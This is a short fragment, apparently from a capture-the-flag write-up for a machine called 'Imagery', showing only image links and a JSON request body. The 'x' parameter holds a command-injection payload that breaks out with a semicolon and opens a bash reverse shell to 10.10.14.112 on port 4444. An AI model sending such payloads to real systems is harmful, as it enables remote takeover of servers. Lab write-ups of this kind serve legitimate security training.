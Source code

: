 ![](<./attachments/Imagery-21.png>)
```html
  "params": {
    "x": ";bash -c '/bin/bash -i >& /dev/tcp/10.10.14.112/4444 0>&1' #",
    "width": "800",
    "height": "900"
  }
```
![](<./attachments/Imagery-23.png>)
![](<./attachments/Imagery-25.png>)
